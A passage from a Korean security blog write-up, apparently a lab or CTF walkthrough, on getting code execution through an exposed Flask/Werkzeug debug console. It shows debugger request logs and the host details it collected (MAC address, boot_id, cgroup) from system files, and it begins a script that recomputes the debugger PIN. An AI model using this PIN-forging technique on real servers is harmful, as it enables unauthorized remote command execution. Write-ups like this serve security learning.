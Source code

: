 ```log
127.0.0.1 - - [08/Dec/2023 14:38:30] "GET /keygen/a?__debugger__=yes&cmd=pinauth&pin=408-915-900&s=AgVjhE4NHyHMvgGuD1Yz HTTP/1.1" 200
```

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/0808ca80-780a-43d9-a386-957587fc70a4" width = 850>
</p>

인증이 완료되면 인증에 대한 Cookie가 적용되는 것을 알 수 있는데 이후 해당 Cookie 값 없이 Command를 전송하게 되면 Pin code 인증이 되지 않은 것처럼 작동하기에 **해당 Cookie 값이 중요하다**. **(~~이 부분에서 한참을 헤맸다...~~)**

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/5f24d399-92d4-4820-837e-12218eac0cb0" width = 850>
</p>

인증을 완료하고 Debug Console을 통해서 Command를 전송하게 되면 아래와 같이 Log가 남게 되는데 `frm`의 파라미터는 개발자 도구에서 확인한거와 같이 사용하고 있는 Console의 `frame number`가 된다.

```log
127.0.0.1 - - [08/Dec/2023 14:40:54] "GET /keygen/a?&__debugger__=yes&cmd=print('peoplstar')&frm=2088523955456&s=AgVjhE4NHyHMvgGuD1Yz HTTP/1.1" 200 -
```

Remote 환경에서는 위 처럼 View가 제공되는 것이 아닌 Byte로 제공되기에 확인한 Log 정보를 이용하여 `curl`로 전송할 것이다.

### Remote 정보 수집

실질적으로 해당 Debug 환경에서 Command를 전송하기 위해서는 Pin-code가 필요하다. 해당 내용은 [Peoplstar's Note](https://peoplstar.github.io/web/2023/10/05/web-flask-dev.html)에서 이미 언급하였기에 Pin code create 부분을 생략하겠습니다.

**Pin code 생성하는 파일** : `werkzeug-2.2.2\werkzeug-2.2.2\src\werkzeug\debug\__init__.py`

* **User Name** : root

    * `ps -ef` : 명령어를 통한 해당 프로세스 실행 유저 정보 확인 가능

* **Mac Address** : aa:fc:00:01:5d:01

* **/etc/machine-id, /proc/sys/kernel/random/boot_id** : 68b7c399-244d-470b-b6fa-1efd3c0a294e
    
    * `__init__.py` 57 line : `for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id"`, 기존 `machine-id`를 사용하였지만 없는 관계로 `boot_id` 사용

* **/proc/self/cgroup** : libpod-ab9607f5d4e7586b770c3cbdee2f6569cf38521c027de1b0e9033c393418aa0f

```python
import hashlib
import typing as t
from itertools import chain
    
def get_pin_and_cookie_name(
) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:    
    rv = None
    num = None

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        'root',
        'flask.app',
        'Flask',
        '/usr/local/lib/python3.8/site-packages/flask/app.py', 
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        '187999308569857', # /sys/class/net/eth0/address Integer convert
```